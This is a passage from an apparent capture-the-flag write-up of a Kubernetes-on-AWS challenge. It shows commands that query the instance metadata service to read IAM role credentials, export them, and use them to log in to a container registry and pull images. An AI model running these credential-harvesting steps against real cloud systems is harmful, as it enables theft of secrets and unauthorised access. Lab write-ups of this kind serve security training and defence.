 Since I expect the pod already has AWS access, lets check if the AWS CLI works:

```bash
root@wiz-eks-challenge:~# aws sts get-caller-identity

Unable to locate credentials. You can configure credentials by running "aws configure".
```

Credentials are not configured right now, so we need to discover them.  Lets
check if we have metadata server access:

```bash
root@wiz-eks-challenge:~# curl http://169.254.169.254/latest/meta-data/iam
info
security-credentials/
```

We do!  So we should be able to pull the credentials out of there to get access
to AWS:

```bash
root@wiz-eks-challenge:~# curl -sS http://169.254.169.254/latest/meta-data/iam/security-credentials/eks-challenge-cluster-nodegroup-NodeInstanceRole|jq
{
  "AccessKeyId": "ASIA2AVYNE<*REDACTED*>",
  "Expiration": "2023-11-03 03:50:19+00:00",
  "SecretAccessKey": "e4TuLKKPBAVvyPkhKiJG0jO0<*REDACTED*",
  "SessionToken": "FwoGZXIvYXdzEBQaDAM9SyNaDBowmWoT1SK3AbqDZUQpyn<*REDACTED*>"
}
```

Lets set those as environment variables to activate our AWS access:

```bash
export AWS_ACCESS_KEY_ID="ASIA2AVYNE<*REDACTED*"
export AWS_SECRET_ACCESS_KEY="e4TuLKKPBAVvyPkhKiJG0jO0<*REDACTED*"
export AWS_SESSION_TOKEN="FwoGZXIvYXdzEBQaDAM9SyNaDBowmWoT1SK3AbqDZUQpyn<*REDACTED*>"

root@wiz-eks-challenge:~# aws sts get-caller-identity
{
    "UserId": "ASIA2AVYNE<*REDACTED*>:i-0cb922c6673973282",
    "Account": "688655246681",
    "Arn": "arn:aws:sts::688655246681:assumed-role/eks-challenge-cluster-nodegroup-NodeInstanceRole/i-0cb922c6673973282"
}
```

Now we should be able to authenticate crane and inspect the image from ECR:

```bash
root@wiz-eks-challenge:~# export PASSWORD=$(aws ecr get-login-password)
root@wiz-eks-challenge:~# crane auth login -u AWS -p $PASSWORD 688655246681.dkr.ecr.us-west-1.amazonaws.com  
2023/11/03 02:56:41 logged in via /home/user/.docker/config.json
```

Lets get those layers!
